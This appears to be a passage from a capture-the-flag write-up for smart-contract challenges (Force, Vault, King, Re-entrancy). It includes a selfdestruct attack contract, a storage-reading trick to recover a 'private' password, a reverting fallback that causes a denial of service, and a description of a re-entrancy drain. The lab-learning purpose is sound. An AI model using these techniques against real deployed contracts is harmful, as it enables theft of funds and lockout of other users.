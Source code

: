 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Force.sol";

contract forceit {
    Force force;

    constructor(Force _force) payable {
        force = Force(_force);
    }

    function attack() public payable {
        address payable addr = payable(address(force));
        selfdestruct(addr);
    }

}
```

# 08. Vault

- It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.
- Here we can access the `_password` by finding its memory location( Here 0 for bool and 1 for bytes32 ) and calling that location using `await web3.eth.getStorageAt(instance, 1, console.log)` which gives us the data.
- send that 32 byte data into unlock function to unlock the vault.
- To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it.

# 09. King

- Here we are doing a DOS attack on the contract because even if we sent the biggest possible amount `require(msg.value >= prize || msg.sender == owner)` owner can't be changed and he can always be the King.
- So we send 1 wei more than the current king and use our fallback function to make a DOS. So that when it try to send ETH back we just revert it.

```
fallback() external payable {
    revert("I'm the only KING");
}
```

# 10. Re-entrancy

- Here we can take advantage of the withdraw function because it modify our balances in the last line.
- Using our recieve function to make the withdraw function to be called in a loop before modifying our balances we can empty the funds of this target contract.
